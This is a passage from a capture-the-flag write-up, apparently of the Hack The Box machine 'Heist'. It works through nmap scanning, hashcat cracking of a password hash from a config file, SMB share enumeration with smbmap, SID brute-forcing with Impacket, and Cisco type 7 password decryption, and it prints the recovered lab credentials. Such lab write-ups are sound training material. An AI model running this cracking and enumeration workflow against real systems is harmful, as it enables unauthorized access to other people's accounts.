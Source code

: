 # Common Enumeration
## NMAP
All ports scan without service version and os detection.
```bash
❯ sudo nmap -p- --min-rate 10000 -oA nmap/heist 10.10.10.149
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 00:01 PKT
Nmap scan report for 10.10.10.149
Host is up (0.18s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 14.85 seconds
```
Detected ports scan with service version and os detection.
```bash
❯ sudo nmap -p80,135,445,5985 -A -oA nmap/heist_version 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 00:06 PKT
Nmap scan report for 10.10.10.149
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-10T19:06:32
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   112.89 ms 10.10.14.1
2   113.05 ms 10.10.10.149

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.96 seconds
```
## Logging in as guest user
Logging in as guest gives config.txt file.
![[Pasted image 20210711013543.png]]
## Cracking hash obtained from config.txt
This file contains hash `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` which when cracked using hashcat gives `stealth1agent` using command `hashcat -m 500 hash.hash /content/drive/MyDrive/rockyou.txt`.
## Accessing SMB shares of hazard user
http://10.10.10.149/issues.php webpage has a user `Hazard` which can be used with cracked hash to access shares of user `Hazard`.
![[Pasted image 20210711055724.png]]
`smbmap` can be used to know the shares of `Hazard` user.
```bash
❯ smbmap -H 10.10.10.149 -u Hazard -p stealth1agent
[+] IP: 10.10.10.149:445        Name: 10.10.10.149
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
## Finding more users via Impacket module lookupsid.py
Found some more users via Impacket module lookupsid.py.
```bash
❯ python3 /home/kali/.local/bin/lookupsid.py SUPPORTDESK/Hazard:stealth1agent@10.10.10.149
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
## Decrypting CISCO type 7 passwords in config.txt file
Decrypting CISCO type 7 passwords in config.txt file.
![[Pasted image 20210711060556.png]]
Decrypting these type 7 passwords via [this website](http://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html) gives
`$uperP@ssword` for username `rout3r` and `Q4)sJu\Y8qz*A3?d` for username `admin`. 





